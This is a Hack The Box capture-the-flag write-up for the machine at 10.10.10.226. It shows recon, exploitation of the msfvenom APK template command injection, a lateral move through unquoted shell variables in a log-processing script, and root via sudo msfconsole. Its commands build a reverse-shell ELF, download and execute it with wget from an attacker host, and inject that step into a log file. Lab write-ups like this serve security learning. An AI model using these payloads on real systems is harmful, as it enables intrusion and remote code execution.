# Box 




https://www.hackthebox.eu/home/machines/profile/314

# Profile

  

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [User 2](#user-2)
  + [Root](#root)

# Contents 

## Reconnaissance

Let's start with nmap : 

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.226 10.10.10.226
```



Well we can see there is a http website. Let's take a look : 




We can generate payload but when I choose "linux" the server displays "something went wrong" everytime. Maybe we can do something about it ? (spoiler : no)

## Exploitation

Since the website uses msfvenom te generate our payload maybe it is the way ? Well, searching for "metasploit exploit" I found this :

https://www.exploit-db.com/exploits/49491

You can find an explanation here : 

https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md

Well now I modified the payload with `curl http://10.10.14.2:4444` which worked : 



We know that we can do a RCE. I tried several methods to get a reverse shell but only one worked.

I used msfvenom to generate a reverse_shell using : 

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.2 LPORT=1234 -f elf > rev_shell.elf
```

In the exploit I used this payload : 

```python
payload = 'wget http://10.10.14.2:4444/rev_shell.elf -O /tmp/rev_shell.elf && chmod +x /tmp/rev_shell.elf && /tmp/rev_shell.elf'
```

## Post-Exploitation

### User

We are a user we can get our flag.



There is a second user called pwn. I think I need to be pwn to be able to get to root.



## User 2

Firstly, I see a file where kid is the user owner is kid  and pwn is the group.



There is a script in the pwn home that we can read : 



When I first read the script, I thought there was nothing to do, then I tried to write in the `/home/kid/logs/hackers` file and we can see that it is always read and its content removed : 



After rereading the script I saw where we can do  a RCE, because there are unquoted variables : 

I took my previous payload and added two arguments.

You need to add two arguments before because the code `cut -d ' ' -f3-` takes the 3rd argument only.

```bash
echo "d f \$(wget http://10.10.14.2:4444/rev_shell.elf -O /tmp/rev_shell.elf && chmod +x /tmp/rev_shell.elf && /tmp/rev_shell.elf)" > /home/kid/logs/hackers
```




### Root

We are now pwn. Let's do a `sudo -l` :



We can see that we can use msfconsole as root. 



Rooted.